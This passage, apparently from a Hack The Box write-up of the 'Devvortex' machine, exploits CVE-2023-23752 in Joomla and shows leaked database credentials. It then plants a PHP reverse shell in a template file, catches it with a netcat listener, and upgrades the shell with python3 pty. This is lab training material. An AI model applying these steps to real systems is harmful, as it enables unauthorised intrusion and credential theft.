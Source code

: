 This version is vulnerable to `CVE-2023-23752`, which is an unauthenticated information disclosure vulnerability. We can exploit this to gain access to the CMS as a superuser with `lewis@devvortex.htb`'s credentials:

```
$ ruby exploit.rb <http://dev.devvortex.htb>
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

> Also making a mental note of the `mysqli` DB.
>

At this point, I kept getting the following error, alongside repeated invalidation of my session cookie and being kicked out of the CMS.

![Untitled](/img/devvortex_img/Untitled%201.png)

I thought this was part of the box (it wasn’t) so I got stuck here for a *very* long time - this issue was persistent through box resets - but swapping to another HTB server fixed this issue.

Similar to other CMS backends, like `Wordpress`, we can write malicious PHP to one of the template files (I used `/templates/cassiopiea/error.php`) and execute that as a PHP program; in this case, we can do the classic PentestMonkey PHP reverse shell script with our local IP and favorite port, start up a netcat listener, and make a GET request for `http://dev.devvortex.htb/templates/cassiopeia/error.php` to execute the script to get onto the machine via `ssh`.

![Untitled](/img/devvortex_img/Untitled%202.png)

We can also run through some commands to upgrade the dumb shell session to a `tty` - this is more convenience than anything:

- We can use the available `python3` binary to spawn a `pseudo-teletype`/`pty` with the `pty` module (`python3 -c 'import pty; pty.spawn("/bin/bash")`)
- Then, upgrade the `pty` to a fully interactive `tty` by copying over some of our terminal environment - allowing the `ssh` session to register the keys we send exactly as we send them:

```bash
[please@ruby]:[~] $ nc -lnvp 9999                                                                                                                             130 ↵
Listening on 0.0.0.0 9999
Connection received on 10.129.45.143 39578
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 13:46:45 up 53 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```